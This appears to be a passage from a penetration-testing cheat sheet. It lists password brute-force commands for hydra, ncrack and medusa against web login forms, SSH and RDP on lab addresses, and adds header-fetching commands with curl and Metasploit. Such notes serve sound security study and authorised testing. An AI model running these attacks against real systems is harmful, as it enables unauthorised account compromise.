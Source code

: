 syntax
```sh
hydra -L <USER> -P <Password> <IP Address> http-post-form "<Login Page>:<Request Body>:<Error Message>"
```
Example:
```sh
hydra -L usernames.txt -P passwords.txt 192.168.2.62 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed"
```
### ssh
```sh
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.123 -t 4
```
## ncrack
Refs:

* <https://tools.kali.org/password-attacks/ncrack>

* <https://nmap.org/ncrack/man.html>

Use verbose mode (`-v`), read a list of IP addresses (`-iL` win.txt), and attempt to login with the username victim (`--user` victim) along with the passwords in a dictionary (`-P` passes.txt) using the RDP protocol (`-p` rdp) with a one connection at a time (`CL=1`):
```
root@kali:~# ncrack -v -iL win.txt --user victim -P passes.txt -p rdp CL=1
```
### ssh
```
ncrack -v  -U username -P passwords CL=1 10.10.10.109:22
OR
ncrack -v  -U username -P passwords CL=10 ssh://10.10.10.109
OR
ncrack -v  -U username -P passwords CL=10 -p ssh 10.10.10.109
```
## medusa
### ssh
Ref
* <https://www.youtube.com/watch?v=j0RjKrON8yI&list=PLPp1uf5KO-28BELlZoFyKNGDaMKZrriOr&index=74>
```
medusa -h 192.168.1.102 -u msfadmin -P customwordlist.txt -M ssh -n 22
```
`-h` : target hostname,
`-u` : username,
`-P` : a dictionary file,
`-M` : the module to execute like SSH, FTP etc,
`-n` : port number wrt to module
# Header Fuzzing and Manipulation
## Fetch Header
```sh
# curl -I to fetch headers and read the protection type from those headers
curl -I http://192.165.34.3/dir
# msfconsole
use auxiliary/scanner/http/http_header
```
## wfuzz
Official Website
* <https://wfuzz.readthedocs.io/en/latest/user/basicusage.html#fuzzing-paths-and-files>

